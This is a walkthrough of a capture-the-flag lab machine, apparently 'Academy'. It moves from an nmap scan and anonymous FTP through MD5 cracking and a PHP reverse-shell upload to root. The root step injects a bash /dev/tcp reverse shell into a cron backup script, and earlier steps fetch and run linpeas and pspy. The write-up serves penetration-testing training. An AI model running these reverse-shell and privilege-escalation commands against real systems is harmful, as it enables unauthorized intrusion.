




# Exploit Walkthrough

## 1. Initial Scan

We begin by scanning the target system using `nmap`. The scan reveals the following open ports:

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-17 21:55 EDT
Nmap scan report for 172.16.137.131
Host is up (0.00059s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:67:26:B2 (VMware)
```

### FTP (Port 21) with Anonymous Access

The FTP service allows anonymous access, and we discover a file called `note.txt`:

```bash
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
```

Inside the file, we find an important message, revealing credentials and hints regarding a SQL command:

```SQL
Hello Heath!
Grimmie has set up the test website for the new academy.
I told him not to use the same password everywhere; he will change it ASAP.

INSERT INTO `students` 
(`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

-jdelta
```

### Hash Analysis and Cracking

We identify the hash `cd73502828457d15655bbd7a63fb0bc8` as **MD5** using `hash-identifier`. To crack it, we use **hashcat**:

```bash
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
```

After cracking, we find the password is `student`.

We now have valid credentials:

```bash
10201321:student
```

## 2. Directory Enumeration

Next, we explore the web server using `dirb`:

```bash
dirb http://172.16.137.131
```

We also use `ffuf` for fuzzing directory names:

```bash
ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt:FUZZ -u http://172.16.137.131/FUZZ
```

This reveals an `/academy` directory. We log in using the previously discovered credentials (`10201321:student`).

## 3. File Upload Exploit (Reverse Shell)

The academy application has a file upload feature on the profile page. We attempt to upload a PHP reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell):

```php
php-reverse-shell.php
```

After successfully uploading the reverse shell, we trigger it by navigating to the uploaded file, gaining a shell as the `apache` user.



## 4. Privilege Escalation

To escalate privileges, we run **linpeas** for automated scanning:

```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### MySQL Credentials Found

Linpeas reveals a MySQL configuration file with credentials. Using these, we identify a user called **grimmie**.



### SSH Access

We attempt to SSH into the machine using **grimmie**'s credentials, and it works!

```bash
ssh grimmie@172.16.137.131
```

## 5. Root Access via Backup Script

Inside **grimmie**'s home directory, we find a `backup.sh` script. To monitor processes, we use **pspy** to detect when the script is running:

```bash
wget https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64
chmod +x pspy64
./pspy64
```



The `backup.sh` script runs periodically, giving us an opportunity for privilege escalation. We modify the script to include a reverse shell:

```bash
bash -i >& /dev/tcp/10.0.0.1/8081 0>&1
```

### Getting Root Access

Once the modified script runs, we listen on port `8081` and receive a root shell:

```bash
nc -lvnp 8081
```



---

With that, we successfully exploited the system and achieved root access.